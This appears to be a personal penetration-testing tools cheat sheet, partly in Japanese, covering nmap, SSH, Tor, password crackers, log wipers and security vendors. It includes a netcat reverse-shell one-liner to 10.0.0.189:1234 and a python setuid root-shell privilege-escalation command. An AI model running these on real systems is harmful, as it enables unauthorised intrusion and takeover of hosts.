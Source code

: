 # Tools

### nmap

https://nmap.org/

https://orebibou.com/ja/home/201506/20150603_001/

スクリプト：/usr/share/nmap/scripts

```bash
# 頻出ポートの一覧 (上位100)
nmap --top-ports 100 -oG - -v -sSU

# ポートスキャンしない：-Pn
# 名前解決しない：-n
# TCP -sT
# SYN -sS
# UDP -sU

# cheat sheet
curl cheat.sh/nmap
```

### ssh

リモートホストにコピー

```bash
cat file1 | ssh -f user@server 'cd $HOME; cat > file1'
```

踏み台設定

```txt
cat ~/.ssh/config
Host host2
     ProxyCommand ssh host1 nc %h %p
```

### getcap

```bash
getcap -r / 2>/dev/null
```

### Tor Browser

https://www.torproject.org/

[How To Access The Dark Web: What Is Tor And How Do I Access Dark Websites?](https://www.alphr.com/technology/1002667/how-to-access-the-dark-web-what-is-tor-and-how-do-i-use-it/#:~:text=Tor%20is%20an%20anonymity%20network,re%20logged%20into%20a%20website.)

[How To Use Tor Browser: Everything You MUST Know in 2021](https://www.vpnmentor.com/blog/tor-browser-work-relate-using-vpn/)

[Tor over VPN: Is it useful if you’re not a whistleblower?](https://cybernews.com/what-is-vpn/tor-over-vpn/)

### proxychains & tor

https://linuxhint.com/proxychains-tutorial/

https://www.geeksforgeeks.org/how-to-setup-proxychains-in-linux-without-any-errors/

### password

- 辞書ファイル、パスワードリスト
  - https://download.openwall.net/pub/wordlists/
- password cracker
  - https://www.openwall.com/john/
  - https://github.com/vanhauser-thc/thc-hydra
- password recovery
  - https://en.wikipedia.org/wiki/Cain_and_Abel_(software)

### log wipers

https://packetstormsecurity.com/UNIX/penetration/log-wipers

```bash
# current login users (utmp)
who
w

# login users info (wtmp)
last
ac -p

# last login users (lastlog)
lastlog
```

### netcat

```bash
rm /tmp/pipe; mkfifo /tmp/pipe; cat /tmp/pipe|/bin/sh -i 2>&1|nc 10.0.0.189 1234 > /tmp/pipe
```

### Privilege escalation

```bash
python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

### POC Tools

https://github.com/mbechler/marshalsec

### Services & Apps

https://www.crowdstrike.com/

https://chronicle.security/

https://www.fireeye.com/

https://www.darktrace.com/

https://www.blackberry.com/

https://www.menlosecurity.com/

https://www.shodan.io/

https://github.com/optiv/ScareCrow

https://github.com/cytopia/pwncat

https://github.com/Cisco-Talos/clamav

https://app.netlas.io

https://www.exabeam.com/

https://www.adaptive-shield.com/
